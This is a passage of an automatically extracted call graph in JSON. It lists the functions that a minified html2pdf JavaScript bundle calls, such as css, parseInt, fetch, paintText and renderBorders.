"static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "computedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "computedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "prefixedCss"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTransformMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "prefixedCss"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTransformMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isTransparent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rectangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isElementVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createPseudoHideStyles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "disableAnimations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isElementVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateOverflowClips"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createStackingContexts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sortStackingContexts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "asyncRenderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendToDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBorders"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseClip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cleanDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "paint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "asyncRenderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "asyncRenderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createStyles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createStyles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getPseudoElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getPseudoElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "computedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "item"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isElementVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getParentStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isRootElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isBodyWithTransparentRoot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newStackingContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newStackingContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "assignStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "color"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isTransparent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getRangeBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splitText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWrapperBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splitText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replaceChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replaceChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendToDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "paintText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cleanDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "paintNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "paintCheckbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "paintRadio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "paintElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBackground"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBorders"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "paintFormValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rectangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderBorders"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "font"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "circleStroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "circle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "paintText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "applyTextTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "decode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "encode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fontWeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTextShadows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "font"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fontShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clearShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderTextDecoration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rectangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "color"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rectangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "color"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rectangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "color"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subdivide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subdivide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subdivide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 